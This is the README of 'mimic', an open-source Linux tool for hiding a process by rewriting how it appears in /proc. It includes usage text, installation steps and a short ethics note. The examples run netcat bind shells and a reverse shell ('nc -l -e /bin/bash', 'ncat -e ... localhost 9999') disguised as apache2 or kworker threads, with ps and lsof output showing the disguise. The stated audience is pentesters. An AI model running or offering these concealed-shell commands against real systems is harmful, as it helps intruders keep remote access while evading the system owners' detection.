 # mimic

_mimic_ is a tool for covert execution on Linux x86\_64.

**What is "covert execution"?**

Covert execution is the art of hiding a process. In this case, _mimic_ hides the process in plain sight. Any user can use it. It does not require special permissions. It does not require special binaries. It does not require a root kit.

**What?! No special privileges??**

That is correct. _mimic_ works by rearranging the internal structures of a process in such a way that it confuses the /proc entry for that process. All tools that report the nature of a process do so by examining /proc. If we can bend /proc, then we can hide a process in plain sight. Since we are only altering the state of a process we own, anyone can successfully run _mimic_.

**Can this be detected?!**

Of course, but only if you are looking very closely, or running a forensic tool that is looking for this sort of thing. The usefulness behind _mimic_ is that it will prevent someone from becoming suspicious in the first place.

**Who is the target audience for _mimic_?**

Anyone who legitimately needs covert execution before they have gotten root. This includes, but is not limited to:
 * Pentesters.
 * Investigators performing covert operations (with the prior approval of their Legal and HR departments, of course.)

**Why is it called "_mimic_"?**

Because "Liar, liar, /proc on fire!" was too long.

**What is "set_target_pid"?**

set_target_pid is a small helper program in the mimic suite that will exhaust pids until the one you want comes back around. This allows you to choose where in the process listing you want your process to sit. Note that the kernel reserves the first 300 pids for kernel threads. If you try to go below that, you'll probably end up running with pid 301.


## Usage ##

	usage: mimic -e COMMAND [-m MIMIC] [-b] [-a KEY=VALUE] [-q] [-h]
		-e	Execute COMMAND.
		-m	Setup COMMAND to look like MIMIC.
				Default for non-root is:    "/usr/sbin/apache2 -k start"
				Default for root is:        "[kworker/0:0]"
		-b	Launch COMMAND in the background.
		-a	Add / overwrite KEY to the mimic environment with associated VALUE.
		-q	Be quiet! Do not print normal output.
		-h	Print this helpful message.
	
		Notes:
			The MIMIC environment will be a copy of the COMMAND environment.
			The '_' variable is automatically changed.
			The -a flag can be called multiple times to add / overwrite multiple variables.
	
		Examples:
			mimic -e /bin/bash
			set_target_pid 1 && mimic -e /bin/bash
			mimic -b -e "./revsh"
			mimic -b -e "nc -l -e /bin/bash"
			mimic -b -e "nc -l -e \"mimic -e /bin/bash\""


## Examples ##

First example - Launching a netcat listener as a regular user:

	empty@monkey:~$ ./mimic -b -e "/usr/local/bin/ncat -l -e \"./mimic -e /bin/bash\""
	Launching child...                  Success!
	Waiting for child to attach...      Success!
	Initializing ptrace_do...           Success!
	Determining stack state...          Success!
	Politely requesting name change...  Success!
	Searching for main()...             Success!
	Building execution headers...       Success!
	Setting up final state...           Success!
	
		Good-bye and have a good luck! :)
	
	empty@monkey:~$ ps aux | grep apache
	empty     1931 19.5  0.0  16648  1324 pts/1    S    21:41   0:02 /usr/sbin/apache2 -k start
	empty     1935  0.0  0.0   7596   836 pts/1    S+   21:41   0:00 grep apache
	
	empty@monkey:~$ sudo lsof -i -n -P | grep apache
	[sudo] password for empty: 
	apache2  1931 empty    3u  IPv6  14462      0t0  TCP *:31337 (LISTEN)
	apache2  1931 empty    4u  IPv4  14463      0t0  TCP *:31337 (LISTEN)

Second example - Launching a netcat reverse shell as root:

	root@monkey:~$ /home/empty/code/mimic/set_target_pid 1 && /home/empty/code/mimic/mimic -b -q -e "/usr/local/bin/ncat -e \"/home/empty/code/mimic/mimic -e \\\"/bin/bash\\\"\" localhost 9999"
	
Can you spot the fake kworkers? Would you be able to without the help of grep?

	root@monkey:~$ ps aux | grep kworker | grep -v grep
	root        18  0.0  0.0      0     0 ?        S    19:39   0:00 [kworker/3:0]
	root       197  0.0  0.0      0     0 ?        S    19:39   0:06 [kworker/u:3]
	root       198  0.0  0.0      0     0 ?        S    19:39   0:06 [kworker/u:4]
	root       199  0.0  0.0      0     0 ?        S    19:39   0:06 [kworker/u:5]
	root       302 23.4  0.0  18748  1912 pts/5    S    22:28   0:02 [kworker/0:0]
	root       304 11.4  0.0   3780   296 pts/5    S    22:28   0:00 [kworker/0:0]              
	root       305 10.8  0.0  10644  1200 pts/5    S    22:28   0:00 [kworker/0:0]
	root       426  0.0  0.0      0     0 ?        S    20:20   0:00 [kworker/1:0]
	root       434  0.0  0.0      0     0 ?        S    20:20   0:00 [kworker/3:2]
	root       536  0.0  0.0      0     0 ?        S    20:12   0:00 [kworker/0:0]
	root       879  0.0  0.0      0     0 ?        S    20:39   0:00 [kworker/2:0]
	root      1463  0.0  0.0      0     0 ?        S    19:39   0:00 [kworker/1:2]
	root      2132  0.0  0.0      0     0 ?        S    19:47   0:00 [kworker/2:2]
	root      2607  0.0  0.0      0     0 ?        S    20:01   0:01 [kworker/0:1]
	
 Of course, no kworker should have an open socket, but I'm sure you can be more creative with your naming choices than this. :)

	root@monkey:~$ lsof -i -n -P | grep kworker
	kworker/0  302  root    4u  IPv4  20546      0t0  TCP 127.0.0.1:47054->127.0.0.1:9999 (ESTABLISHED)
	kworker/0  304  root    4u  IPv4  20546      0t0  TCP 127.0.0.1:47054->127.0.0.1:9999 (ESTABLISHED)
	kworker/0  305  root    4u  IPv4  20546      0t0  TCP 127.0.0.1:47054->127.0.0.1:9999 (ESTABLISHED)

Note that I'm running here as root only because a kworker thread should be *very* suspicious running as a non-root user. The new mimic name is just a string. It doesn't have to be an existing process. Hell, it doesn't even have to be a real thing!

	empty@monkey:~$ code/mimic/mimic -q -e /bin/bash -m "Totally not a rootkit\!"
	
	empty@monkey:~$ ps aux | grep rootkit | grep -v grep
	empty      399  2.9  0.0   3780   300 pts/4    S    22:34   0:00 Totally not a rootkit!          
	empty      400  2.7  0.0  19372  2044 pts/4    S    22:34   0:00 Totally not a rootkit!


## Installation ##

	git clone https://github.com/emptymonkey/ptrace_do.git
	cd ptrace_do
	make
	cd ..
	
	git clone https://github.com/emptymonkey/mimic.git
	cd mimic
	make


## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

